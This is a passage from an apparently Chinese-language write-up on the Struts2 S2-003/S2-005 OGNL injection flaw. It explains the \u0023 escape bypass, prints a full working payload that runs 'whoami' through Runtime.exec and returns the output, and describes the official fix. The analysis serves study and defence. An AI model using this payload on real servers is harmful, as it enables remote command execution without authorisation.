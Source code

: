 当\之后为u时,则会进行专门的处理,经过处理后\u0023就会转化为#从而绕过了安全限制

![处理后](images/处理后.png)

&emsp;&emsp;&emsp;&emsp; 7.payload分析

&emsp;&emsp;&emsp;&emsp;前一部分('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)是关闭了denyMethodExecution函数

&emsp;&emsp;&emsp;&emsp;剩余的就是执行命令并回显出来&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('\u0023mycmd\u003d\'whoami\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))


## 漏洞修复

> 官方通过增加安全配置禁止静态方法调用(allowStaticMethodAcces)和类方法执行(MethodAccessor.den
yMethodExecution)等来修补

## 总结

> struts2漏洞的精髓在ongl表达式......

## 参考

> https://github.com/xhycccc/Struts2-Vuln-Demo

> https://xz.aliyun.com/t/2323#toc-6

> https://lorexxar.cn/2019/09/23/javaweb-S2/#S2-003-amp-S2-005
